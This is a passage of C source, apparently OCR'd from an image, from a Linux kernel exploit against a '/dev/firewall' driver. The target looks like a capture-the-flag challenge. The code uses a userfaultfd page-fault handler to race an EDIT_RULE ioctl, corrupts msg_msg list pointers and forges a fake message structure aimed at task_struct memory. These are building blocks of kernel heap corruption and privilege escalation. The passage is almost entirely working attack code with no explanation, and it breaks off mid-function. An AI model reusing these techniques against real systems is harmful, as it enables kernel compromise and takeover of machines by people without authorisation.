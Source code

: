 ```c
}

static void fault_handler_1(void *arg) {
  puts("[+] Enter userpagefault 1");

  static struct uffd_msg uf_msg;
  uint64_t uffd = (uint64_t)arg;
  struct pollfd pollfd;
  int nready;

  pollfd.fd = uffd;
  pollfd.events = POLLIN;
  u1 = uffd;

  puts("[+] polling...");
  while ((nready = poll(&pollfd, 1, -1)) > 0) {
    if (pollfd.revents & POLLERR || pollfd.revents & POLLHUP) {
      die("[!] poll failed\n");
    }
    if ((read(uffd, &uf_msg, sizeof(uf_msg))) == 0) {
      die("[!] read uffd msg failed\n");
    }
    if (uf_msg.event != UFFD_EVENT_PAGEFAULT) {
      die("[!] unexpected pagefault\n");
    }

    printf("[+] page fault: %p\n", (void *)uf_msg.arg.pagefault.address);
    printf("[*] Modified msg0 next to msg2's segment\n");
    user_rule_t *rule = calloc(1, sizeof(user_rule_t));
    ((struct msg_msg *)rule)->m_list.next = (void *)prev;
    ((struct msg_msg *)rule)->m_list.prev = (void *)prev;
    ((struct msg_msg *)rule)->m_ts = 0x10;
    ((struct msg_msg *)rule)->m_type = 1;
    rule->idx = 0;
    rule->type = OUTBOUND;
    ip_value_to_str(next, rule->ip, 16);
    ip_value_to_str((next) >> 32, rule->netmask, 16);
    ioctl(global_fd, EDIT_RULE, rule);
    char buf[0x10];
    msgrcv(qid[0], buf, 0x10, 0, IPC_NOWAIT | MSG_NOERROR);

    printf("[*] Prepare fake msg struct\n");
    bzero(msg_buf, sizeof(msg_buf));
    ((struct msg_msg *)(msg_buf + 0xfd0 - 0x10))->next =
        (void *)(task_struct + 0x530);
    ((struct msg_msg *)(msg_buf + 0xfd0 - 0x10))->m_ts = 0xff8;
    ((struct msg_msg *)(msg_buf + 0xfd0 - 0x10))->m_type = 1;
    printf("[*] Now userfault 2\n");
    ((msg *)(target2 + PAGE_SIZE - 0x10))->mtype = 1;
    send_msg(qid[3], target2 + PAGE_SIZE - 0x10, 0xff8, 0);

    break;
  }
  puts("[+] exit userpagefault 1 fault_handler!");
  relased = 1;
}

int main() {
  user_rule_t *rule = calloc(1, sizeof(user_rule_t));
  msg *message = (msg *)msg_buf;
  int ret = 0;
  global_fd = open("/dev/firewall", O_RDWR);
  if (global_fd < 0) {
```